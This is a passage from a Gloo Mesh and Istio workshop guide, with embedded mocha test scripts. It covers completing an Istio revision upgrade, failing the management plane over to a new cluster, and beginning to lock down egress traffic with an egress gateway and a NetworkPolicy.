timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


Everything is working well with the new version, we can uninstall the previous version.

Let's start with the gateways

```bash
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: true
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
---
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-eastwest
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster1
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster1
EOF

cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster2-ingress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        activeGateway: true
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-ingressgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: ingressgateway
---
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster2-eastwest
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        values:
          gateways:
            istio-ingressgateway:
              customService: true
        components:
          ingressGateways:
            - name: istio-eastwestgateway
              namespace: istio-gateways
              enabled: true
              label:
                istio: eastwestgateway
                topology.istio.io/network: cluster2
              k8s:
                env:
                  - name: ISTIO_META_ROUTER_MODE
                    value: "sni-dnat"
                  - name: ISTIO_META_REQUESTED_NETWORK_VIEW
                    value: cluster2
EOF
```
<!--bash
kubectl --context ${CLUSTER1} -n istio-system get pods
kubectl --context ${CLUSTER2} -n istio-system get pods
kubectl --context ${CLUSTER1} -n istio-gateways get pods
kubectl --context ${CLUSTER2} -n istio-gateways get pods
-->
<!--bash
ATTEMPTS=1
until [[ $(kubectl --context ${CLUSTER1} -n istio-gateways get pods -l "istio.io/rev=${OLD_REVISION}" -o json | jq '.items | length') -eq 0 ]] || [ $ATTEMPTS -gt 120 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 1
done
[ $ATTEMPTS -le 120 ] || kubectl --context ${CLUSTER1} -n istio-gateways get pods -l "istio.io/rev=${OLD_REVISION}"

ATTEMPTS=1
until [[ $(kubectl --context ${CLUSTER2} -n istio-gateways get pods -l "istio.io/rev=${OLD_REVISION}" -o json | jq '.items | length') -eq 0 ]] || [ $ATTEMPTS -gt 60 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 1
done
[ $ATTEMPTS -le 60 ] || kubectl --context ${CLUSTER2} -n istio-gateways get pods -l "istio.io/rev=${OLD_REVISION}"
-->

And then the control plane:

```bash
cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster1-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster1
        defaultRevision: true
      revision: 1-23
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster1
            network: cluster1
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF

cat << EOF | kubectl --context ${MGMT} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: IstioLifecycleManager
metadata:
  name: cluster2-installation
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
      - name: cluster2
        defaultRevision: true
      revision: 1-23
      istioOperatorSpec:
        profile: minimal
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        namespace: istio-system
        values:
          global:
            meshID: mesh1
            multiCluster:
              clusterName: cluster2
            network: cluster2
          cni:
            excludeNamespaces:
            - istio-system
            - kube-system
            logLevel: info
        meshConfig:
          accessLogFile: /dev/stdout
          defaultConfig:
            proxyMetadata:
              ISTIO_META_DNS_CAPTURE: "true"
              ISTIO_META_DNS_AUTO_ALLOCATE: "true"
        components:
          pilot:
            k8s:
              env:
                - name: PILOT_ENABLE_K8S_SELECT_WORKLOAD_ENTRIES
                  value: "false"
                - name: PILOT_ENABLE_IP_AUTOALLOCATE
                  value: "true"
          cni:
            enabled: true
            namespace: kube-system
          ingressGateways:
          - name: istio-ingressgateway
            enabled: false
EOF
```
<!--bash
ATTEMPTS=1
until [[ $(kubectl --context ${CLUSTER1} -n istio-system get pods -l "istio.io/rev=${OLD_REVISION}" -o json | jq '.items | length') -eq 0 ]] || [ $ATTEMPTS -gt 120 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 1
done
[ $ATTEMPTS -le 120 ] || kubectl --context ${CLUSTER1} -n istio-system get pods -l "istio.io/rev=${OLD_REVISION}"
ATTEMPTS=1
until [[ $(kubectl --context ${CLUSTER2} -n istio-system get pods -l "istio.io/rev=${OLD_REVISION}" -o json | jq '.items | length') -eq 0 ]] || [ $ATTEMPTS -gt 60 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 1
done
[ $ATTEMPTS -le 60 ] || kubectl --context ${CLUSTER2} -n istio-system get pods -l "istio.io/rev=${OLD_REVISION}"
-->
Run the following command:

```bash
kubectl --context ${CLUSTER1} -n istio-system get pods && kubectl --context ${CLUSTER1} -n istio-gateways get pods
```

You should get the following output:

```
NAME                           READY   STATUS    RESTARTS   AGE
istiod-1-22-796fffbdf5-n6xc9   1/1     Running   0          25m
NAME                                          READY   STATUS    RESTARTS   AGE
istio-eastwestgateway-1-22-546446c77b-zg5hd   1/1     Running   0          25m
istio-ingressgateway-1-22-784f69b4bb-lcfk9    1/1     Running   0          25m
```

It confirms that only the new version is running.

<!--bash
cat <<'EOF' > ./test.js
const chaiExec = require("@jsdevtools/chai-exec");
var chai = require('chai');
var expect = chai.expect;
chai.use(chaiExec);

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});
describe("Old Istio version should be uninstalled", () => {
  it("Pods aren't running anymore in CLUSTER1, namespace istio-system", () => {
    let cli = chaiExec('kubectl --context ' + process.env.CLUSTER1 + ' -n istio-system get pods -l "istio.io/rev=' + process.env.OLD_REVISION +'" -o json');
    expect(cli).to.exit.with.code(0);
    expect(JSON.parse(cli.stdout).items).to.have.lengthOf(0);
  });
  it("Pods aren't running anymore in CLUSTER1, namespace istio-gateways", () => {
    let cli = chaiExec('kubectl --context ' + process.env.CLUSTER1 + ' -n istio-gateways get pods -l "istio.io/rev=' + process.env.OLD_REVISION +'" -o json');
    expect(cli).to.exit.with.code(0);
    expect(JSON.parse(cli.stdout).items).to.have.lengthOf(0);
  });
  it("Pods aren't running anymore in CLUSTER2, namespace istio-system", () => {
    let cli = chaiExec('kubectl --context ' + process.env.CLUSTER2 + ' -n istio-system get pods -l "istio.io/rev=' + process.env.OLD_REVISION +'" -o json');
    expect(cli).to.exit.with.code(0);
    expect(JSON.parse(cli.stdout).items).to.have.lengthOf(0);
  });
  it("Pods aren't running anymore in CLUSTER2, namespace istio-gateways", () => {
    let cli = chaiExec('kubectl --context ' + process.env.CLUSTER2 + ' -n istio-gateways get pods -l "istio.io/rev=' + process.env.OLD_REVISION +'" -o json');
    expect(cli).to.exit.with.code(0);
    expect(JSON.parse(cli.stdout).items).to.have.lengthOf(0);
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/istio-lifecycle-manager-upgrade/tests/previous-version-uninstalled.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


Finally, you can update the service to point only to the new revision.

```bash
kubectl --context ${CLUSTER1} -n istio-gateways patch svc istio-ingressgateway --patch "{\"spec\": {\"selector\": {\"revision\": \"${NEW_REVISION}\" }}}"
kubectl --context ${CLUSTER1} -n istio-gateways patch svc istio-eastwestgateway --patch "{\"spec\": {\"selector\": {\"revision\": \"${NEW_REVISION}\" }}}"
kubectl --context ${CLUSTER2} -n istio-gateways patch svc istio-ingressgateway --patch "{\"spec\": {\"selector\": {\"revision\": \"${NEW_REVISION}\" }}}"
kubectl --context ${CLUSTER2} -n istio-gateways patch svc istio-eastwestgateway --patch "{\"spec\": {\"selector\": {\"revision\": \"${NEW_REVISION}\" }}}"
```

Test that you can still access the `productpage` service:

```
curl -k "https://cluster1-bookinfo.example.com/productpage" -I
```

You should get a response similar to the following one:

```
HTTP/2 200
server: istio-envoy
date: Wed, 24 Aug 2022 14:58:22 GMT
content-type: application/json
content-length: 670
access-control-allow-origin: *
access-control-allow-credentials: true
```

<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-http');

describe("productpage is accessible", () => {
  it('/productpage is available in cluster1', () => helpers.checkURL({ host: `https://cluster1-bookinfo.example.com`, path: '/productpage', retCode: 200 }));
})

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/istio-lifecycle-manager-upgrade/tests/productpage-available.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 26 - Gloo Mesh Management Plane failover <a name="lab-26---gloo-mesh-management-plane-failover-"></a>


Before we start the failover procedure, let's capture the current output snapshot:

```shell
pod=$(kubectl --context ${MGMT} -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}')
kubectl --context ${MGMT} -n gloo-mesh debug -q -i ${pod} --image=curlimages/curl -- curl -s http://localhost:9091/snapshots/output > output
```

We can use it later to check the translation produces the same output on the new management plane.

Also, let's capture all Istio objects as well:

```bash
kubectl --context ${CLUSTER1} get istio-io -A -o json > cluster1_original
kubectl --context ${CLUSTER2} get istio-io -A -o json > cluster2_original
```

We can use it later to check the failover hasn't impacted the Istio configuration (no objects have been modified).
We're going to deploy a new Kubernetes cluster to host the standby Gloo Platform management plane:

```bash
./scripts/deploy-aws-with-calico.sh 4 mgmt2
```

Then, run the following commands to wait for all the Pods to be ready:

```bash
./scripts/check.sh mgmt2
```

We also need to create a new environment variable:
```bash
export MGMT2=mgmt2
```
<!--bash
cat <<'EOF' > ./test.js
const helpers = require('./tests/chai-exec');

describe("Clusters are healthy", () => {
    const clusters = [process.env.MGMT2];
    clusters.forEach(cluster => {
        it(`Cluster ${cluster} is healthy`, () => helpers.k8sObjectIsPresent({ context: cluster, namespace: "default", k8sType: "service", k8sObj: "kubernetes" }));
    });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/gloo-mesh-mgmt-failover/tests/cluster-healthy.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->
Copy the relay secrets used by the previous management plane to the new one:

```bash
kubectl --context ${MGMT2} create ns gloo-mesh
kubectl --context ${MGMT} -n gloo-mesh get secret relay-identity-token-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get secret relay-root-tls-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get secret relay-server-tls-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get secret relay-tls-signing-secret -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

After that, we can deploy Gloo Platform on this cluster.

Run the following commands to deploy the Gloo Platform management plane (and scale it down):

```bash
kubectl --context ${MGMT2} create ns gloo-mesh

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT2} \
  --version 2.6.4

helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${MGMT2} \
  --version 2.6.4 \
  -f -<<EOF
licensing:
  glooTrialLicenseKey: ${GLOO_MESH_LICENSE_KEY}
common:
  cluster: mgmt
glooInsightsEngine:
  enabled: false
glooMgmtServer:
  enabled: true
  ports:
    healthcheck: 8091
prometheus:
  enabled: true
redis:
  deployment:
    enabled: true
telemetryGateway:
  enabled: true
  service:
    type: LoadBalancer
glooUi:
  enabled: true
  serviceType: LoadBalancer
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: gloo-telemetry-gateway:4317
EOF

kubectl --context ${MGMT2} -n gloo-mesh rollout status deploy/gloo-mesh-mgmt-server

kubectl --context ${MGMT2} -n gloo-mesh scale deploy/gloo-mesh-mgmt-server --replicas=0
```

Finally, you need to specify which gateways you want to use for cross cluster traffic:

```bash
cat <<EOF | kubectl --context ${MGMT2} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: global
  namespace: gloo-mesh
spec:
  options:
    eastWestGateways:
      - selector:
          labels:
            istio: eastwestgateway
EOF
```

Copy the `KubernetesCluster` objects from the previous management plane to the new one:

```bash
kubectl --context ${MGMT} -n gloo-mesh get KubernetesCluster cluster1 -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get KubernetesCluster cluster2 -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

Copy the secret containing the root CA certificate used by the previous management plane to the new one:

```bash
kubectl --context ${MGMT} -n gloo-mesh get secret root-trust-policy.gloo-mesh -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

Copy the `IstioLifecycleManager` and `GatewayLifecycleManager` objects from the previous management plane to the new one:

```bash
kubectl --context ${MGMT} -n gloo-mesh get IstioLifecycleManager cluster1-installation -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get IstioLifecycleManager cluster2-installation -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster1-ingress -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster1-eastwest -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster2-ingress -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
kubectl --context ${MGMT} -n gloo-mesh get GatewayLifecycleManager cluster2-eastwest -o yaml | kubectl --context ${MGMT2} -n gloo-mesh apply -f -
```

Create the following `RootTrustPolicy` object which will create the new `cacerts` secret using the previous root CA certificate.

```bash
cat << EOF | kubectl --context ${MGMT2} apply -f -
apiVersion: admin.gloo.solo.io/v2
kind: RootTrustPolicy
metadata:
  name: root-trust-policy
  namespace: gloo-mesh
spec:
  config:
    mgmtServerCa:
      secretRef:
        name: root-trust-policy.gloo-mesh
        namespace: gloo-mesh
    autoRestartPods: false
EOF
```

Let's create the `gateways` workspace which corresponds to the `istio-gateways` and the `gloo-mesh-addons` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT2} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: gateways
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
  - name: cluster2
    namespaces:
    - name: istio-gateways
    - name: gloo-mesh-addons
EOF
```

Let's create the `bookinfo` workspace which corresponds to the `bookinfo-frontends` and `bookinfo-backends` namespaces on the cluster(s):

```bash
kubectl apply --context ${MGMT2} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: bookinfo
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
  - name: cluster2
    namespaces:
    - name: bookinfo-frontends
    - name: bookinfo-backends
EOF
```

Let's create the `httpbin` workspace which corresponds to the `httpbin` namespace on `cluster1`:

```bash
kubectl apply --context ${MGMT2} -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  name: httpbin
  namespace: gloo-mesh
  labels:
    allow_ingress: "true"
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: httpbin
EOF
```

Then, you need to set the environment variable to tell the Gloo Platform agents how to communicate with the management plane:

```bash
export ENDPOINT_GLOO_MESH=$(kubectl --context ${MGMT2} -n gloo-mesh get svc gloo-mesh-mgmt-server -o jsonpath='{.status.loadBalancer.ingress[0].*}'):9900
export HOST_GLOO_MESH=$(echo ${ENDPOINT_GLOO_MESH%:*})
export ENDPOINT_TELEMETRY_GATEWAY=$(kubectl --context ${MGMT2} -n gloo-mesh get svc gloo-telemetry-gateway -o jsonpath='{.status.loadBalancer.ingress[0].*}'):4317
```

Now, let's update the agents to use the new management plane.

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster1
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF

kubectl --context ${CLUSTER1} create ns gloo-mesh

kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER1} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER1} --from-file token=token
rm token

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER1} \
  --version 2.6.4

helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER1} \
  --version 2.6.4 \
  -f -<<EOF
common:
  cluster: cluster1
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF

kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: KubernetesCluster
metadata:
  name: cluster2
  namespace: gloo-mesh
spec:
  clusterDomain: cluster.local
EOF

kubectl --context ${CLUSTER2} create ns gloo-mesh

kubectl get secret relay-root-tls-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.ca\.crt}' | base64 -d > ca.crt
kubectl create secret generic relay-root-tls-secret -n gloo-mesh --context ${CLUSTER2} --from-file ca.crt=ca.crt
rm ca.crt

kubectl get secret relay-identity-token-secret -n gloo-mesh --context ${MGMT} -o jsonpath='{.data.token}' | base64 -d > token
kubectl create secret generic relay-identity-token-secret -n gloo-mesh --context ${CLUSTER2} --from-file token=token
rm token

helm upgrade --install gloo-platform-crds gloo-platform-crds \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER2} \
  --version 2.6.4

helm upgrade --install gloo-platform gloo-platform \
  --repo https://storage.googleapis.com/gloo-platform/helm-charts \
  --namespace gloo-mesh \
  --kube-context ${CLUSTER2} \
  --version 2.6.4 \
  -f -<<EOF
common:
  cluster: cluster2
glooAgent:
  enabled: true
  relay:
    serverAddress: "${ENDPOINT_GLOO_MESH}"
    authority: gloo-mesh-mgmt-server.gloo-mesh
telemetryCollector:
  enabled: true
  config:
    exporters:
      otlp:
        endpoint: "${ENDPOINT_TELEMETRY_GATEWAY}"
EOF
```

Let's scale up the management plane:

```bash
kubectl --context ${MGMT2} -n gloo-mesh scale deploy/gloo-mesh-mgmt-server --replicas=1
```

And update the variables to use the new management plane from now on:
```bash
export MGMT=${MGMT2}
```
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');
describe("Cluster registration", () => {
  it("cluster1 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster1");
  });
  it("cluster2 is registered", () => {
    podName = helpers.getOutputForCommand({ command: "kubectl -n gloo-mesh get pods -l app=gloo-mesh-mgmt-server -o jsonpath='{.items[0].metadata.name}' --context " + process.env.MGMT }).replaceAll("'", "");
    command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.MGMT + " -n gloo-mesh debug -q -i " + podName + " --image=curlimages/curl -- curl -s http://localhost:9091/metrics" }).replaceAll("'", "");
    expect(command).to.contain("cluster2");
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/gloo-mesh-mgmt-failover/../deploy-and-register-gloo-mesh/tests/cluster-registration.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

Finally we can check that the istio objects are the same as before the failover:

```bash
kubectl --context ${CLUSTER1} get istio-io -A -o json > cluster1_final
kubectl --context ${CLUSTER2} get istio-io -A -o json > cluster2_final
```
<!--bash
ATTEMPTS=1
until [[ $(jq -r '.items|length' cluster1_final) -ge 1 ]] || [ $ATTEMPTS -gt 12 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 10
  kubectl --context ${CLUSTER1} get istio-io -A -o json > cluster1_final
done
ATTEMPTS=1
until [[ $(jq -r '.items|length' cluster2_final) -ge 1 ]] || [ $ATTEMPTS -gt 12 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 10
  kubectl --context ${CLUSTER2} get istio-io -A -o json > cluster2_final
done

npm install -g json-diff
json-diff -x metadata cluster1_original cluster1_final
json-diff -x metadata cluster2_original cluster2_final

-->
<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var fs = require("fs-extra");
var jsonDiff = require('json-diff');
var expect = chai.expect;

afterEach(function (done) {
  if (this.currentTest.currentRetry() > 0) {
    process.stdout.write(".");
    setTimeout(done, 1000);
  } else {
    done();
  }
});

const compare = (originalFileName, finalFileName) => {
  const original = JSON.parse(fs.readFileSync(originalFileName, 'utf8'));
  const final = JSON.parse(fs.readFileSync(finalFileName, 'utf8'));

  const result = jsonDiff.diff(original, final, { excludeKeys: ["metadata"] });
  return result;
}

describe("failover has no impact", () => {
  it("Istio objects haven't been modified in cluster1", () => {
    const result = compare('cluster1_original', 'cluster1_final');
    expect(result).to.be.undefined;
  });
  it("Istio objects haven't been modified in cluster2", () => {
    const result = compare('cluster2_original', 'cluster2_final');
    expect(result).to.be.undefined;
  });
});
EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/gloo-mesh-mgmt-failover/tests/failover-has-no-impact.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->


## Lab 27 - Securing the egress traffic <a name="lab-27---securing-the-egress-traffic-"></a>
[](https://youtu.be/tQermml1Ryo "Video Link")


In this step, we're going to secure the egress traffic.

We're going to deploy an egress gateway, configure Kubernetes `NetworkPolicies` to force all the traffic to go through it and implement some access control at the gateway level.

<!--bash
cat <<'EOF' > ./test.js
var chai = require('chai');
var expect = chai.expect;
const helpers = require('./tests/chai-exec');

describe("Communication status", () => {
  it("Productpage can send requests to httpbin.org", () => {
    const command = helpers.getOutputForCommand({ command: "kubectl --context " + process.env.CLUSTER1 + " -n bookinfo-frontends exec deploy/productpage-v1 -- python -c \"import requests; r = requests.get('http://httpbin.org/get'); print(r.status_code)\"" }).replaceAll("'", "");
    expect(command).to.contain("200");
  });
});

EOF
echo "executing test dist/gloo-mesh-2-0-workshop/build/templates/steps/apps/bookinfo/secure-egress/tests/productpage-to-httpbin-allowed.test.js.liquid"
tempfile=$(mktemp)
echo "saving errors in ${tempfile}"
timeout --signal=INT 3m mocha ./test.js --timeout 10000 --retries=120 --bail 2> ${tempfile} || { cat ${tempfile} && echo "" && cat ./test.js && exit 1; }
-->

The gateways team is going to deploy an egress gateway:

```bash
kubectl apply --context ${MGMT} -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: GatewayLifecycleManager
metadata:
  name: cluster1-egress
  namespace: gloo-mesh
spec:
  installations:
    - clusters:
        - name: cluster1
          activeGateway: false
      gatewayRevision: 1-23
      istioOperatorSpec:
        profile: empty
        hub: us-docker.pkg.dev/gloo-mesh/istio-workshops
        tag: 1.23.1-solo
        components:
          egressGateways:
            - enabled: true
              label:
                istio: egressgateway
              name: istio-egressgateway
              namespace: istio-gateways
EOF
```

Check that the egress gateway has been deployed using the following command:

```shell
kubectl --context ${CLUSTER1} -n istio-gateways get pods -l istio=egressgateway
```
<!--bash
ATTEMPTS=1
until [[ $(kubectl --context $CLUSTER1 -n istio-gateways get deploy -l istio=egressgateway -o json | jq '[.items[].status.readyReplicas] | add') -ge 1 ]] || [ $ATTEMPTS -gt 120 ]; do
  printf "."
  ATTEMPTS=$((ATTEMPTS + 1))
  sleep 1
done
-->

You should get an output similar to:

```,nocopy
NAME                                        READY   STATUS    RESTARTS   AGE
istio-egressgateway-1-17-55fcbddd96-bwntr   1/1     Running   0          25m
```

Then, the gateway team needs to create a `VirtualGateway` and can define which hosts can be accessed through it:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: egress-gw
  namespace: istio-gateways
spec:
  listeners:
    - exposedExternalServices:
        - host: httpbin.org
      appProtocol: HTTPS
      port:
        number: 443
      tls:
        mode: ISTIO_MUTUAL
      http: {}
  workloads:
    - selector:
        labels:
          app: istio-egressgateway
          istio: egressgateway
EOF
```

As you can see, only the `httpbin.org` host has been allowed.

After that, the bookinfo or platform team needs to create a Kubernetes `NetworkPolicy` to only allow the following egress traffic in the `bookinfo-frontends` namespace:
- from the Pods to the egress gateway
- from the Pods to the Kubernetes DNS server

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.k8s.io/v1
kind: NetworkPolicy
metadata:
  name: restrict-egress
  namespace: bookinfo-frontends
spec:
  podSelector: {}
  policyTypes:
  - Egress
  egress:
  - to:
    - namespaceSelector:
        matchLabels: {}
      podSelector:
        matchLabels: {}
  - to:
    - ipBlock:
        cidr: $(kubectl --context ${CLUSTER2} -n istio-gateways get svc -l istio=eastwestgateway -o jsonpath='{.items[].status.loadBalancer.ingress[0].*}')/32
    ports:
      - protocol: TCP
        port: 15443
        endPort: 15443
EOF
```

Try to to access the `httpbin.org` site from the `productpage` Pod:

```shell
